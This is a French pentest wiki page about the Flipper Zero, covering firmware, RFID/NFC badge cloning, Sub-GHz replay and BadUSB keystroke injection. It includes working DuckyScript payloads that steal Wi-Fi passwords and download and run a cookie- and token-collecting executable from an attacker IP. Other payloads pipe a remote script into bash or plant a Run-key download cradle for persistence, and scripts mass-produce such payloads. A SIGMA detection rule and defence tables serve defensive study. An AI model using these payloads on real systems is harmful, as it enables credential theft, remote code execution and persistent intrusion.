


# 🔌 Flipper Zero (USB & radio) — USB / HID & Gadgets

> [!info] **En 1 phrase**
> Le Flipper Zero est un couteau suisse de pentest physique : BadUSB (clavier HID), RFID/NFC, radio Sub-GHz, infrarouge et GPIO réunis dans un boîtier de poche.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom | Flipper Zero |
| Type | Gadget multi-vecteurs de pentest physique et radio |
| Interfaces | BadUSB HID, RFID LF 125 kHz, NFC HF 13,56 MHz, Sub-GHz (300-928 MHz), IR, GPIO/UART, iButton, Bluetooth |
| Firmware officiel | 1.4.3 (déc. 2025) — stable, fréquence Sub-GHz bridée par région |
| Firmware Momentum | mntm-012 — continuation de Xtreme, UI + SDK JS + asset packs |
| Firmware Unleashed | unlshd-090 — restrictions régionales retirées, baseline communautaire |
| Firmware RogueMaster | Kitchen-sink : le plus d'apps/plugins, stabilité plus aléatoire |
| Licence | Firmware GPL-3.0 ; apps communautaires GPL-3.0 |
| Coût | ~180 € (outil seul) ; modules CC1101 / nRF24 / RF Lab 2-in-1 (~25-40 €) |
| Flash | qFlipper (desktop), lab.flipper.net (officiel), flash.pingequa.com (web serial) |
| Vecteur MITRE principal | T1200 (Hardware Additions) |

Le Flipper se distingue du reste de la famille USB/HID par son **multi-vecteurs** : un seul gadget couvre l'injection clavier, le badge, le portail radio et la télécommande IR.

---

## 🎯 Concept

Le Flipper Zero est un dispositif matériel portable pensé pour la sécurité offensive physique et radio. Il combine plusieurs interfaces dans une seule coque : **BadUSB** (injection de frappes via un profil clavier HID), **RFID 125 kHz** (lecture/émulation de badges EM410X, HID, Indala...), **NFC 13,56 MHz** (lecture/émulation MIFARE et autres), **radio Sub-GHz** (capture et rejeu de signaux 300-928 MHz : télécommandes, portails), **infrarouge** (télécommandes IR) et **GPIO/UART** (debug série, sniffing, flash).

Le système est un firmware open source, avec un stock (firmware officiel) et des variantes communautaires enrichies (Unleashed, Momentum). On y dépose des payloads via un simple dossier USB (`badusb`, `subghz`, `nfc`, `rfid`...), ce qui le rend idéal en pentest physique : clonage de badge, ouverture de portails, vol de session via keystroke injection. Il se place dans la phase **accès physique** d'un engagement, en complément d'outils comme le Rubber Ducky ou le Proxmark.

En engagement autorisé, le Flipper sert surtout à **documenter** la faisabilité d'un accès : badge cloné = contrôle d'accès franchissable, portail rejouable = entrée non protégée, poste déverrouillé = vol de session possible. Chaque action doit être tracée (fréquences, formats de cartes, temps de présence) pour alimenter le rapport et les recommandations. Le stock d'outils communautaires facilite aussi la préparation : bibliothèques de payloads BadUSB et base de données de fréquences/bruteforce RFID prêtes à l'emploi.



---

## 🧠 Concepts fondamentaux

| Notion | Détail |
|---|---|
| BadUSB | Profil clavier HID ; payloads DuckyScript dans le dossier `badusb` |
| RFID LF 125 kHz | Badges EM410X, HID Prox, Indala, HiTag — lecture/émulation/clonage direct |
| NFC HF 13,56 MHz | MIFARE Classic/Plus/Ultralight, NTAG, DESFire (partiel) — lecture/écriture/émulation |
| Sub-GHz | Radio 300-928 MHz (315/433/868/915 MHz) : capture et rejeu de signaux bruts |
| Rolling code | Portails Keeloq/SCA : rejeu simple inefficace → jammer + capture synchronisée |
| Infrarouge | Base de télécommandes, capture/rejeu de trames IR |
| GPIO/UART | Debug série (UART), sniffing de bus, flash de puces via adaptateur |
| iButton | Clés Dallas DS1990 (températures, accès) — lecture/émulation |
| Firmware custom | Débloque fréquences/régions et apps ; **n'ajoute aucun radio** (module requis) |
| Modules externes | CC1101 (portée Sub-GHz), nRF24 (bande 2,4 GHz), RF Lab 2-in-1 |
| MIFARE Classic | Ne « se déchiffre » pas : dump nécessite les clés sectorielles (dictionnaire, mfoc) |

> [!note] À vérifier
> Les numéros de versions de firmware évoluent vite (officiel 1.4.x, Momentum mntm-01x, Unleashed unlshd-09x) : vérifier les releases officielles au moment de l'utilisation.

---

## 🛠️ Installation

```bash
# 1. Mettre à jour via l'application qFlipper (GUI, officielle) :
#    https://flipperzero.one/update
#    Connecter le Flipper en USB -> qFlipper -> Update (téléchargement + flash automatique)

# 2. CLI : passage en mode DFU (Left + Back au boot) puis dfu-util
dfu-util -a 0 -D full.dfu -s 0x08000000:leave

# 3. Firmwares communautaires : les packages sont déposés sur la microSD
#    sous /ext/update/ puis appliqués au reboot (l'update ne raye PAS la SD)
#    Web installateur : https://flash.pingequa.com/devices/flipper-firmware
#    Sources :
#    https://github.com/Next-Flip/Momentum-Firmware
#    https://github.com/DarkFlippers/unleashed-firmware
#    https://github.com/RogueMaster/flipperzero-firmware-wPlugins
```

> [!note] À vérifier
> Le flash web repose sur la Web Serial API (Chrome/Edge desktop, Firefox 151+) : Safari et iOS ne sont pas supportés.

---

## ⚙️ Configuration

### Dossiers de payloads (montage USB)

| Dossier | Contenu |
|---|---|
| `/badusb` | Scripts DuckyScript (`ATTACKMODE`, `DELAY`, `STRING`, `GUI r`...) |
| `/subghz` | Captures radio sauvegardées (`Saved`, `.sub` files) |
| `/nfc` | Dumps MIFARE et émulations (`Saved`, `.nfc` files) |
| `/rfid` | Badges LF sauvegardés (`Saved`, `.rfid` files) |
| `/ir` | Télécommandes IR enregistrées |
| `/infrared` | Idem IR (selon firmware) |
| `/apps_assets` | Assets des apps (bruteforce, flipper_http...) |

### Firmware communautaire — paramétrage Momentum

```text
# Après flash Momentum : app "Momentum Settings"
# - Activer/désactiver les fréquences Sub-GHz (extended range)
# - Personnaliser le menu principal, les animations (asset packs)
# - Configurer les keybinds et la sécurité (lock on boot, PIN)
# - Activer le SDK JavaScript pour des apps maison
```

### Règles radio (légalité)

- Les fréquences autorisées **dépendent de la région** (FCC Part 15 US, ETSI UE) : le firmware officiel bride l'émission, les firmwares custom la retirent.
- N'émettre que sur des fréquences/puissances licites et sur du matériel autorisé.

---

## 🏗️ Architecture interne



- **STM32WB55** : MCU double-cœur (Cortex-M4 + radio 2,4 GHz pour le BLE), cœur du Flipper.
- **Firmware** : C/C++, exécute les apps (BadUSB, NFC, Sub-GHz...) et gère le menu.
- **MicroSD** : stockage des captures et des payloads ; les apps custom s'installent en `.fap`.
- **Apps (FAP)** : modules compilés séparément, déposés dans `/apps` — le firmware les charge à la demande.

---

## ⌨️ Commandes

### Payload BadUSB (Duckyscript)

```bash
# Fichier : badusb/script.txt — le payload se joue au branchement du Flipper
ATTACKMODE HID STORAGE
DELAY 800
CTRL-ALT t
DELAY 500
STRING curl http://10.10.20.15/payload.sh | bash
ENTER
```

### Fonctions intégrées

| Fonction | Effet |
|---|---|
| `BadUSB` | Injection clavier (payloads DuckyScript dans le dossier `badusb`) |
| `NFC (13,56 MHz)` | Lecture/écriture/émulation de cartes MIFARE et NFC |
| `RFID LF (125 kHz)` | Lecture/émulation/clonage de badges EM410X, HID, Indala... |
| `Sub-GHz` | Capture et rejeu de signaux radio (300-928 MHz) |
| `Infrared` | Capture/rejeu de télécommandes IR |
| `GPIO / UART` | Debug série, sniffing de bus, flash de puces |
| `USB CLI` | Console d'administration via port série (baud 115200) |
| `qFlipper` | Application de gestion : firmware, dossiers, mises à jour |
| `Sub-GHz > Frequency Analyzer` | Scan passif de la bande pour identifier les signaux actifs |
| `NFC > Detect Reader` | Détecte et récupère les paramètres d'un lecteur NFC (nonces) |

---

## 🎚️ Options et flags

| Option BadUSB | Description |
|---|---|
| `ATTACKMODE HID` | Énumération clavier seul |
| `ATTACKMODE HID STORAGE` | Clavier + stockage (exfil) |
| `DELAY <ms>` | Pause avant/entre les frappes |
| `STRING <texte>` | Saisie littérale |
| `GUI r` / `CTRL-ALT t` | Combinaisons de touches (DuckyScript) |
| `DEFINE <var> <val>` | Macro de remplacement (certains firmwares) |
| `WAIT_FOR_BUTTON_PRESS` | Pause jusqu'à un appui physique (Momentum) |

| Option Sub-GHz / NFC | Description |
|---|---|
| `Frequency Analyzer` | Scan passif de la bande (aucune émission) |
| `Read Raw` | Capture du signal brut (protocoles inconnus) |
| `Saved -> Emulate` | Rejeu d'une capture |
| `Read Reader` | Analyse d'un lecteur NFC (nonces) |
| `Bruteforce` (MIFARE) | Attaque par dictionnaire de clés sectorielles |

---

## 🧪 Exemples pratiques

### Basic — vol de mot de passe Wi-Fi Windows

```text
ATTACKMODE HID
DELAY 1000
GUI r
DELAY 500
STRING powershell -nop -w hidden -c "$p=(netsh wlan show profiles) | Select-String ':' | %{$_.ToString().Split(':')[1].Trim()}; foreach($n in $p){netsh wlan show profile $n key=clear}"
ENTER
```

### Intermediate — téléversement d'un exécutable en mémoire

```text
ATTACKMODE HID
DELAY 1000
GUI r
DELAY 500
STRING powershell -nop -w hidden -c "Invoke-WebRequest http://10.10.20.15/exfil.exe -OutFile $env:TEMP\e.exe; Start-Process $env:TEMP\e.exe"
ENTER
```

Charge un exécutable de collecte (cookies, tokens) depuis un poste sans interactivité.

### Advanced — clonage de badge EM410X

```text
# Sur le Flipper : RFID -> Read (poser le badge) -> Save
# Puis RFID -> Saved -> Emulate : le Flipper se fait passer pour le badge.
# Vérifier le comportement du lecteur avec un second badge de test avant le vrai contrôle d'accès.
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Préparation** — flasher le firmware (officiel ou Unleashed/Momentum), installer l'appli mobile et synchroniser le Flipper.
2. **Reconnaissance physique** — au contact du site : lire un badge RFID/NFC au passage (fonction *Read*), noter le format (EM410X, HID, MIFARE...).
3. **Cloner/émuler** — sauvegarder le badge lu et l'émuler pour franchir le contrôle d'accès.

```bash
# Sur le Flipper : RFID -> Read (poser le badge) -> Save
# Puis RFID -> Saved -> Emulate
```

4. **BadUSB** — déposer un payload DuckyScript sur une machine cible (poste déverrouillé, badge posé).

```text
ATTACKMODE HID STORAGE
DELAY 800
CTRL-ALT t
DELAY 500
STRING curl http://10.10.20.15/payload.sh | bash
ENTER
```

5. **Radio** — capturer un signal Sub-GHz (portail) et le rejouer pour documenter l'accès sans autorisation.
6. **Documentation** — consigner chaque interaction (fréquences, types de cartes, résultats) pour le rapport d'engagement.

---

## 🎬 Scénarios avancés

### Scénario 1 : Vol de session via BadUSB

```text
ATTACKMODE HID
DELAY 1000
GUI r
DELAY 500
STRING powershell -nop -w hidden -c "Invoke-WebRequest http://10.10.20.15/exfil.exe -OutFile $env:TEMP\e.exe; Start-Process $env:TEMP\e.exe"
ENTER
```

### Scénario 2 : MIFARE avec dump de clés

Sur une carte MIFARE Classic : lire avec le Flipper (ou un [[Techniques/Hardware - Proxmark|Proxmark]]), utiliser le dump pour analyser les blocs, trouver les mots de passe sectoriels et **cloner** la carte sur une émulation Flipper. Attention : MIFARE Classic nécessite déjà les clés pour le dump (attaque par dictionnaire de clés connues).

### Scénario 3 : analyse passive Sub-GHz d'un environnement

```text
# Sur le Flipper : Sub-GHz -> Frequency Analyzer
# Identifier les signaux actifs (télécommandes, portails) sans émettre.
# Noter les fréquences pour préparer la capture ciblée dans une zone précise.
```

### Scénario 4 : persistance BadUSB avec déverrouillage par profil

```text
ATTACKMODE HID
WAIT_FOR_BUTTON_PRESS     # (Momentum) attendre l'appui physique du testeur
GUI r
DELAY 500
STRING powershell -nop -w hidden -c "New-ItemProperty HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -Name Upd -Value 'powershell -w hidden -nop -c IEX((New-Object Net.WebClient).DownloadString(\"http://10.10.20.15/p.ps1\"))' -Force"
ENTER
```

---

## 🛡️ Cybersecurity use cases

| Use case | Description |
|---|---|
| Pentest physique | Test des contrôles d'accès : badges, portails, postes déverrouillés |
| Test de réponse | Vérifier la détection SOC/EDR d'une injection HID ou d'un HID inconnu |
| Audit radio | Documenter les signaux rejouables (portails, télécommandes) sans matos dédié |
| Red team | Livraison d'un agent C2 ([[Outil - Metasploit]], [[Outil - PowerShell Empire]]) |
| Recon passive | Lecture de badge / Frequency Analyzer : quasi aucune trace |
| Formation | Sensibiliser aux risques USB/RFID/radio avec un outil pédagogique |

---

## 🎯 MITRE ATT&CK

| Technique | ID | Exemple Flipper |
|---|---|---|
| Hardware Additions | T1200 | Insertion USB du Flipper (BadUSB) |
| Command and Scripting Interpreter: PowerShell | T1059.001 | Payload `powershell -nop -w hidden -c "..."` |
| Command and Scripting Interpreter: Windows Command Shell | T1059.003 | Commandes batch / `netsh` frappées |
| User Execution: Malicious File | T1204.002 | Lancement d'un exécutable téléchargé |
| Boot or Logon Autostart Execution | T1547.001 | Run key posée via BadUSB |
| Exfiltration Over Physical Medium | T1052 | Copie vers le Flipper en mode STORAGE |
| Application Layer Protocol | T1071 | HTTP(S) de livraison du payload |
| Input Capture | T1056.001 | Keylogging par capture de session (via poste) |

---

## 🛡️ Defensive Security

### Détections

| Signe | Défense |
|---|---|
| Appareil HID inconnu branché (clavier fantôme) | Contrôle des périphériques USB (allowlist de VID/PID), DLP, agents EDR |
| Frappes très rapides / commandes inhabituelles | Supervision de la session (keylogger/sysmon), alerte sur patterns PowerShell |
| Badge copié utilisé en double | Cartes à clés dérivées (iCLASS, DESFire), contrôle par badge + biométrie |
| Signal radio rejoué (portail) | Codes tournants (rolling code), fréquence chiffrée |
| Connexions sortantes vers une IP d'attaquant | Filtrage réseau, monitoring des connexions sortantes |

### Règle SIGMA (exemple)

```yaml
title: Flipper Zero BadUSB keystroke injection pattern
id: 7a91c4d2-bbbb-4c2c-8e6e-3f5a7b9c1d2e
status: experimental
logsource:
    product: windows
    service: powershell
detection:
    selection:
        EventID:
            - 4104
            - 4103
        ScriptBlockText|contains:
            - 'netsh wlan show profile'
            - 'Invoke-WebRequest.*Start-Process'
            - 'New-ItemProperty.*CurrentVersion\Run'
    condition: selection
falsepositives:
    - Administration légitime
level: medium
```

> [!note] À vérifier
> Règle pédagogique : adapter à l'environnement et au SIEM (Splunk, Wazuh…).

---

## 🤖 Automatisation

```bash
# Générer plusieurs payloads BadUSB à partir d'un modèle (hôtes fictifs)
for ip in 10.10.20.15 10.10.20.16; do
  sed "s/HOST/$ip/" template.txt > "badusb/revshell_$ip.txt"
done

# Téléverser le lot sur le Flipper (monté en USB)
cp badusb/*.txt /media/user/FLIPPER/badusb/
sync
```

```python
# Python — préparation d'une campagne multi-cibles (démo)
import os
targets = ["10.10.20.15", "10.10.20.16"]
for ip in targets:
    payload = f"""ATTACKMODE HID\nDELAY 1000\nGUI r\nDELAY 500\nSTRING powershell -nop -w hidden -c "IEX((New-Object Net.WebClient).DownloadString('http://{ip}/p.ps1'))"\nENTER"""
    with open(f"badusb/campaign_{ip.replace('.', '_')}.txt", "w") as f:
        f.write(payload)
```

---

## 📤 Output et parsing

Le Flipper n'expose pas de sortie CLI globale : les résultats sont des **fichiers sur la microSD** (`/subghz`, `/nfc`, `/rfid`, `/badusb`) et la console USB.

```bash
# Console USB (baud 115200) — commandes administratives
screen /dev/ttyACM0 115200
# help, device_info, storage_list...

# Monter la microSD en USB et parcourir les captures
ls -la /media/user/FLIPPER/subghz/Saved/
ls -la /media/user/FLIPPER/nfc/Saved/
```

```bash
# Analyse forensique des dumps (exemple : identifier un badge)
grep -R "protocol" /media/user/FLIPPER/rfid/Saved/ | head
```

---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - USB Rubber Ducky]] — même langage BadUSB/Duckyscript, clé officielle
- [[Outil - Bash Bunny]] — HID + réseau + stockage, complémentaire
- [[Techniques/Hardware - Flipper Zero]] — fiche technique dédiée
- [[Techniques/Hardware - Proxmark]] — dump MIFARE avancé (mfoc/mfcuk)
- [[Techniques/Hardware - RFID et NFC]] — fondamentaux des cartes
- [[Techniques/Hardware - RFID LF (HID, EM410X, Indala, HiTag)]] — badges LF
- [[Techniques/Hardware - RFID MIFARE (HF 13.56 MHz)]] — MIFARE Classic
- [[Techniques/Protocole USB]] — descripteurs HID, classes USB
- [[Techniques/Protocole Bluetooth]] — bande BLE du Flipper
- [[Techniques/Reverse Shells]] — payloads livrés par HID

---

## 🔄 Alternatives

| Outil | Domaine | Coût | Points forts | Points faibles |
|---|---|---|---|---|
| **Flipper Zero** | Multi-vecteurs | ~180 € | BadUSB + RFID + NFC + Sub-GHz + IR + GPIO | Coût, portée Sub-GHz limitée, pas de 2,4 GHz natif |
| [[Outil - USB Rubber Ducky]] | HID seul | ~50 € | Fiable, officiel, discret | HID uniquement |
| [[Outil - Bash Bunny]] | HID + réseau | ~100 € | STORAGE + RNDIS + double slot | Coût, pas de radio |
| [[Techniques/Hardware - Proxmark|Proxmark]] | RFID/NFC avancé | ~60-100 € | Dump MIFARE, offline attacks | Pas de HID, pas de radio Sub-GHz |
| ESP32 / nRF24 (perso) | Radio/BLE | ~5-15 € | Programmable, bon marché | Développement requis |
| [[Outil - WiFi Pineapple]] | WiFi | ~100-200 € | Rogue AP, pentest WiFi | Pas de HID ni radio Sub-GHz |
| O.MG Cable | HID WiFi | ~100 €+ | Injection à distance | Dépend WiFi, coût |

---

## ⚡ Performance

- **Autonomie** : ~4 h d'utilisation active (batterie ~1300 mAh) ; veille prolongée entre les phases.
- **Portée Sub-GHz** : ~50 m en stock (murs), améliorable avec un module CC1101 / antenne (Horizon 433 Pro).
- **Vitesse BadUSB** : les DELAY intégrés fiabilisent la frappe ; l'énumération HID prend <1 s.
- **Capacité** : microSD (jusqu'à 64 Go recommandé) pour dumps NFC, captures Sub-GHz et apps.

---

## 🛠️ Troubleshooting

### Problème : l'update firmware échoue / reboot en boucle

- **Cause** : package corrompu ou microSD absente/pleine.
- **Solution** : insérer une SD avec de l'espace libre, réessayer ; sinon récupération via qFlipper (mode Repair).
- **Vérification** : le firmware en cours n'est pas altéré pendant une update ratée.

### Problème : le Flipper ne monte pas en USB

- **Cause** : câble charge uniquement, port défaillant, mode qFlipper non relâché.
- **Solution** : fermer qFlipper/lab.flipper.net, câble de données, rebrancher.
- **Vérification** : `lsusb` (STM32) / Gestionnaire de périphériques.

### Problème : capture Sub-GHz qui ne rejoue pas le portail

- **Cause** : protocole à rolling code (Keeloq, SCA) — le rejeu simple est inutile.
- **Solution** : attaque jammer + capture synchronisée, ou analyse du protocole.
- **Vérification** : tester sur un récepteur de lab avant le site.

### Problème : carte MIFARE illisible

- **Cause** : clés sectorielles inconnues.
- **Solution** : dictionnaire de clés (bruteforce MIFARE), passer par un Proxmark avec mfoc en lab.
- **Vérification** : ne jamais forcer sur du matériel non autorisé.

---

## 🔐 Sécurité de l'outil

- **Cadre légal** : la lecture/clonage de badges et l'émulation de signaux sont des actions intrusives — périmètre autorisé uniquement (accord écrit).
- **Fréquences** : l'émission radio est règlementée (FCC Part 15, ETSI) — respecter les bandes et puissances licites.
- **Stockage** : les dumps contiennent des secrets (clés, nonces) — chiffrer/supprimer après l'engagement.
- **Traces** : le Flipper est identifiable (forme, USB) ; documenter chaque utilisation pour le rapport.

---

## ⚠️ Limitations

- **Pas de 2,4 GHz natif** : le BLE est présent, mais le WiFi/2,4 GHz nécessite un module nRF24 externe.
- **Portée radio limitée** : la sensibilité Sub-GHz stock est faible face aux portails industriels.
- **MIFARE Classic** : dump impossible sans clés — les cartes DESFire/iCLASS sont hors d'atteinte simple.
- **Rolling codes** : la plupart des portails récents rendent le rejeu simple inefficace.
- **BadUSB détecté** : les EDR modernes repèrent les nouveaux périphériques HID et les frappes automatisées.
- **Firmware custom ≠ magie** : débloquer les fréquences reste une contrainte légale, pas une capacité.

---

## 📋 Cheatsheet

| Action | Parcours Flipper |
|---|---|
| Lire un badge RFID | `RFID` → `Read` → poser badge → `Save` |
| Émuler un badge | `RFID` → `Saved` → `Emulate` |
| Lire une carte NFC | `NFC` → `Read` → `Save` |
| Dump MIFARE | `NFC` → `Read MIFARE Classic` → (clés) → `Save` |
| Capture radio | `Sub-GHz` → `Read Raw` → `Save` |
| Scanner passif | `Sub-GHz` → `Frequency Analyzer` |
| Analyser un lecteur | `NFC` → `Detect Reader` |
| Lancer un BadUSB | `BadUSB` → sélectionner le script → exécuter |
| Payloads | copier dans `/badusb` via USB |
| Console USB | `screen /dev/ttyACM0 115200` |

---

## ⚡ Quick reference

```text
# Payload BadUSB minimal (reverse shell, IP fictive)
ATTACKMODE HID
DELAY 1000
GUI r
DELAY 500
STRING powershell -nop -w hidden -c "IEX((New-Object Net.WebClient).DownloadString('http://10.10.20.15/p.ps1'))"
ENTER
```

```bash
# Flash en CLI (DFU) après mise à jour du package
dfu-util -a 0 -D full.dfu -s 0x08000000:leave
```

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Appareil HID inconnu branché (clavier fantôme) | Contrôle des périphériques USB (allowlist de VID/PID), DLP, agents EDR |
| Frappes très rapides / commandes inhabituelles | Supervision de la session (keylogger/sysmon), alerte sur patterns PowerShell |
| Badge copié utilisé en double | Cartes à clés dérivées (iCLASS, DESFire), contrôle par badge + biométrie |
| Signal radio rejoué (portail) | Codes tournants (rolling code), fréquence chiffrée |
| Connexions sortantes vers une IP d'attaquant | Filtrage réseau, monitoring des connexions sortantes |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Installe un **firmware communautaire** (Unleashed/Momentum) pour étendre les fréquences et ajouter des apps utiles ; garde le stock pour les audits réglementaires.
> - Sauvegarde tes captures (cartes, IR, radio) dans des dossiers organisés : c'est ta preuve d'engagement.
> - Utilise la **reconnaissance passive** d'abord : lire un badge ne laisse quasiment aucune trace, contrairement au clonage actif.
> - Momentum = bon défaut (stable, UI soignée) ; RogueMaster pour le nombre d'apps mais stabilité plus aléatoire.

> [!warning] ⚠️ **Pièges**
> - **Ne crois pas au rejeu universel** : les portails à *rolling code* rendent le rejeu inefficace — il faut une attaque dédiée (jammer + capture synchronisée).
> - Les cartes **MIFARE Classic** ne se « déchiffrent » pas : sans clé sectorielle, pas de dump complet (utilise Proxmark + mfoc/mfcuk en lab).
> - Le **BadUSB est de plus en plus détecté** par les EDR modernes (nouveaux périphériques HID) : teste tes payloads sur ta propre infra avant l'engagement.
> - Un firmware custom **n'ajoute pas de radio** : sans module CC1101/nRF24, la portée et les bandes restent celles du matériel.

---

## 📚 References

> [!info] 📚 **Sources**
> - [Site officiel Flipper Zero](https://flipperzero.one/)
> - [Documentation Flipper](https://docs.flipper.net/)
> - [GitHub firmware officiel](https://github.com/flipperdevices/flipperzero-firmware)
> - [GitHub — Momentum-Firmware (Next-Flip)](https://github.com/Next-Flip/Momentum-Firmware)
> - [GitHub — Unleashed (DarkFlippers)](https://github.com/DarkFlippers/unleashed-firmware)
> - [GitHub — RogueMaster](https://github.com/RogueMaster/flipperzero-firmware-wPlugins)
> - [Flash web custom firmware (Web Serial)](https://flash.pingequa.com/devices/flipper-firmware)
> - [Awesome Flipper — comparatif des firmwares](https://awesome-flipper.com/firmware/)

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Techniques/Hardware - Flipper Zero|Hardware - Flipper Zero]] · [[Techniques/Protocole USB|Protocole USB]] · [[Outils/Outil - USB Rubber Ducky|USB Rubber Ducky]]
